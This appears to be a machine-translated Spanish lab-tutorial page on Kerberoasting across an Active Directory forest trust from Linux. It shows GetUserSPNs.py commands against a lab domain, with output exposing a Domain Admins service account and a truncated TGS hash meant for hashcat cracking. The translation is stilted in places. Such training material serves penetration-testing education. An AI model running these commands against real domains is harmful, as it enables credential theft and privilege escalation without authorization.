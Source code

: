 # Atacando los fideicomisos de dominio - abuso de confianza de la orientación cruzada - de Linux

---

Como vimos en la sección anterior, a menudo es posible Kerberoast a través de un fideicomiso forestal. Si esto es posible en el entorno que estamos evaluando, podemos realizar esto con`GetUserSPNs.py`de nuestro host de ataque de Linux. Para hacer esto, necesitamos credenciales para un usuario que pueda autenticarse en el otro dominio y especificar el`-target-domain`bandera en nuestro comando. Realizando esto contra el`FREIGHTLOGISTICS.LOCAL`dominio, vemos una entrada SPN para el`mssqlsvc`cuenta.

## Kerberoasting

#### Usando getUserspns.py

  Atacando los fideicomisos de dominio - abuso de confianza de la orientación cruzada - de Linux

```shell-session
xnoxos@htb[/htb]$ GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never> 
```

Volver a ejecutar el comando con el`-request`La bandera agregada nos da el boleto TGS. También podríamos agregar`-outputfile <OUTPUT FILE>`para emitir directamente a un archivo con el que podríamos dar la vuelta y ejecutar hashcat.

#### Usando la bandera de resolución

  Atacando los fideicomisos de dominio - abuso de confianza de la orientación cruzada - de Linux

```shell-session
xnoxos@htb[/htb]$ GetUserSPNs.py -request -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley  

Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
ServicePrincipalName                 Name      MemberOf                                                PasswordLastSet             LastLogon  Delegation 
-----------------------------------  --------  ------------------------------------------------------  --------------------------  ---------  ----------
MSSQLsvc/sql01.freightlogstics:1433  mssqlsvc  CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL  2022-03-24 15:47:52.488917  <never>               


$krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$FREIGHTLOGISTICS.LOCAL/mssqlsvc*$10<SNIP>
```
